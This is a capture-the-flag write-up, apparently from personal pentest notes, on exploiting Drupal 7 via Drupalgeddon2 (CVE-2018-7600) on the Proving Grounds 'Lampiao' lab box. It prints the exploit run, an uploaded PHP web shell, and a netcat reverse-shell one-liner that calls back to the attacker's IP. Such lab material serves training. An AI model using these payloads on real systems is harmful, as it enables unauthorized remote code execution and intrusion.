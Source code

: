 ```yaml
---
layout: default
title: Drupal
parent: Web Exploits
nav_order: 2
---
```


# Drupal

---

Example from _Proving Grounds Play - Lampiao_

Looking at _/profiles_ we see _/testing_ and several files including a _testing.info_ file.

![profiles](../../../assets/images/ctfs/proving_grounds/lampiao/profiles.png)

This indicates the version of Drupal is _7.5_

![version](../../../assets/images/ctfs/proving_grounds/lampiao/version.png)

# Exploitation

---

This version should be vulnerable to _Drupalgeddon2_ which there is an RCE exploit in _searchsploit_

![searchsploit](../../../assets/images/ctfs/proving_grounds/lampiao/searchsploit.png)

Copy the _44449.rb_ exploit to the current directory.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ searchsploit -m 44449.rb
  Exploit: Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/44449
     Path: /usr/share/exploitdb/exploits/php/webapps/44449.rb
    Codes: CVE-2018-7600
 Verified: True
File Type: Ruby script, ASCII text
Copied to: /home/vagrant/Documents/PG/PLAY/lampiao/44449.rb


```

This exploit requires the _highline_ gem.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ sudo gem install highline
Fetching highline-2.1.0.gem
Successfully installed highline-2.1.0
Parsing documentation for highline-2.1.0
Installing ri documentation for highline-2.1.0
Done installing documentation for highline after 1 seconds
1 gem installed

```

Now we can run the exploit and get a reverse shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ ruby 44449.rb http://192.168.226.48:1898
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.226.48:1898/
--------------------------------------------------------------------------------
[+] Found  : http://192.168.226.48:1898/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OXGANKQN
[+] Result : OXGANKQN
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.226.48:1898/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.226.48:1898/shell.php' -d 'c=hostname'
lampiao>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Get a Stable Shell

---

Use _revshellgen_ to generate a _nc-mknod_ reverse shell one-liner.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

```

Run this one-liner in the PHP shell on the target.

```bash
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!

lampiao>> rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l
[!] WARNING: Detected an known bad character (>)

```

We get a reverse shell on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/lampiao]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.226.48] 56476
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

##
